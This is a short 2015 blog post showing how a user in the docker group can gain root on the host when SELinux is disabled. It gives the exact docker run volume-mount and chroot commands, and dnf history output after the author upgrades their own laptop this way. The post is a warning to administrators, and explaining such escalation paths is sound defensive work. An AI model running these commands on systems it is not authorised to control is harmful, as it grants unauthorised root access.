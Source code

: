 ```yaml
---
title: Root your host in 2 easy steps with Docker
type: post
date: 2015-05-09T03:37:49+00:00
url: /index.php/root-your-host-in-2-easy-steps-with-docker/
al2fb_facebook_link_id:
  - 55700847_10102032281813308
al2fb_facebook_link_time:
  - 2015-05-09T03:37:55+00:00
al2fb_facebook_link_picture:
  - media=https://jmainguy.com/?al2fb_image=1
categories:
  - General

---
```

So lets assume jmainguy is a user on your system, and he asks to be added to the docker group so he can spin up docker containers and such, seems like a fairly reasonable request. You add him to the docker group.

jmainguy then complains that he cant share data among-st his containers via -v volume mounting, selinux is stopping him. He wanted to mount some gluster storage shared between the containers, a fairly reasonable request. For some reason you turn off selinux so he can volume mount. (dont turn off selinux).

You have now given jmainguy root to the box.

I did not feel like becoming root on my laptop, so I updated it via the following as my jmainguy user in the docker group.

docker run -v /:/home -ti fedora /bin/bash
  
#This mounted / from the host, to /home on the container, and then dropped jmainguy into the container running bash (as root on the container).
  
as root, I ran chroot /home #This makes shell act like / starts at /home basically.
  
then because I hate /bin/sh, I ran /bin/bash
  
Hooray, I am full root on my laptop and can do as I please. Thankfully I just wanted to upgrade it

dnf upgrade.

And as root on the container looking at dnf history, it shows this.

[root@Jmainguy-Fedora jmainguy]# dnf history
  
Last metadata expiration check performed 2:03:46 ago on Fri May 8 20:56:52 2015.
  
ID | Login user | Date a | Action | Altere
  
&#8212;&#8212;&#8212;&#8212;&#8212;&#8212;&#8212;&#8212;&#8212;&#8212;&#8212;&#8212;&#8212;&#8212;&#8212;&#8212;&#8212;&#8212;&#8212;&#8212;&#8212;&#8212;&#8212;&#8212;&#8212;&#8212;-
      
27 | System <unset> | 2015-05-08 22:59 | Update | 83
      
26 | Jonathan &#8230; <jmainguy> | 2015-05-05 16:10 | Update | 6
      
25 | Jonathan &#8230; <jmainguy> | 2015-05-04 08:48 | E, I, U | 131 EE

As you can see, ID2 27, the user was &#8220;System <unset>&#8221; and updated 83 packages.

tldr; Do not turn off selinux

Credit <http://reventlov.com/advisories/using-the-docker-command-to-root-the-host> for inspiring me to try this. I was unable to duplicate his trick of copying /bin/sh to the host and using that to become root, but it relied on volume mounting as this does, so pretty much the same thing.